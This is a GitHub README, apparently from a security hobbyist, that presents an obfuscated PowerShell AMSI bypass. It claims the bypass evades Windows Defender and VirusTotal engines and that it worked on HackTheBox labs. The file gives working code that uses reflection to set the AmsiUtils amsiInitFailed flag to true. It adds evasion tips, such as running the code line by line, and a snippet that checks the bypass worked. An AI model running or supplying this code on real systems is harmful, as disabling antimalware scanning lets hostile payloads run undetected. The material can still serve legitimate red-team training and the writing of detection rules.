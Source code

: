 
![Screenshot 2025-06-10 111757](https://github.com/user-attachments/assets/7d7063a6-bb2f-4bd5-a1a4-e83f5ececa8a)

# Bypass ASMI!

This is an advanced ASMI bypass that currently isn't picked up by Windows defender or any of the anti virus softwares on VirusTotal.

You should run this script line by line, don't just execute it .\pwn.ps1 it might get detected if you do that.

But just running it line by line is undetected currently.

It's bypassed ASMI on prolabs from HackTheBox and even on my personal computer.

```powershell
$e=[Ref].('Assem'+'bly').('Ge'+'t'+'Ty'+'pe')(([string]::Join('', [char[]](83,121,115,116,101,109,46,77,97,110,97,103,101,109,101,110,116,46,65,117,116,111,109,97,116,105,111,110,46,65,109,115,105,85,116,105,108,115))))
$n='Non'+'Public'
$s='Static'
$f=$e.('Ge'+'t'+'Fi'+'eld')(([string]::Join('', [char[]](97,109,115,105,73,110,105,116,70,97,105,108,101,100))),($n+','+$s))
$t=[type[]]@([object],[bool])
$m=$f.('Ge'+'t'+'Ty'+'pe')().('Ge'+'t'+'Me'+'tho'+'d')('Se'+'t'+'Val'+'ue', $t)
$m.('In'+'vo'+'k'+'e')($f, @($null, $true))
```

# Check if it Worked!

This should return True if it worked and it'll return False if the bypass failed.

```powershell
$e=[Ref].('Assem'+'bly').('Ge'+'t'+'Ty'+'pe')(([string]::Join('',[char[]](83,121,115,116,101,109,46,77,97,110,97,103,101,109,101,110,116,46,65,117,116,111,109,97,116,105,111,110,46,65,109,115,105,85,116,105,108,115))));
$n='Non'+'Public'
$s='Static'
$f=$e.('Ge'+'t'+'Fi'+'eld')(([string]::Join('',[char[]](97,109,115,105,73,110,105,116,70,97,105,108,101,100))),$n+','+$s)
$f.('Ge'+'t'+'Val'+'ue')($null)
```
